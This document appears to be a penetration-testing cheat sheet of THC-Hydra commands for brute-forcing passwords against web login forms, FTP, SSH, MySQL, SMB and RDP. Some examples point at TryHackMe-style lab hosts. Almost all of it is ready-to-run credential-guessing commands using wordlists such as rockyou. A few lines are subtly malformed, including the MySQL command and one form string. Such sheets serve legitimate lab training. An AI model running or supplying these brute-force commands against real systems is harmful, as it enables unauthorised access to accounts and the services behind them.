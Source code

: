 ## Brute Force THCHydra

https://en.kali.tools/?p=220

# HTTP Post Web Form

$ hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "<Login Page>:<Request Body>:<Error Message>"

$ hydra -l admin -P /dir/passlist.txt www.onlineshop.thm http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.12.183 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

$hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.4.149 http-post-form "/admin/:user=^USER^&pass=^PASS^login=Login:Username or password invalid"

$ hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

# FTP

$ hydra -l user-name -P /dir/passlist.txt <IP Address> ftp

$ hydra -L /dir/users.txt -P /dir/passlist.txt ftp://<IP_Address>

# SSH

$ hydra -l <username> -P <full path to passlist.txt> <IP Address Target> -t 4 ssh

$ hydra -L <full path to usernamelist.txt> -P <full path to passlist.txt> ssh://IP_Address:22

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt <IP Address Target> -t 4 ssh

$ ssh username@<IP Address>

# MySQL

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt <IP Address Target> -t mysql

# SMB

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt <IP Address Target> -t 4 smb

# RDP
$ hydra -l <username> -P <full path to passlist.txt> <IP Address> rdp

$ hydra -L <full path to usernamelist.txt> -P <full path to passlist.txt> -t 4 -W 3 rdp://IP_Address:3389/
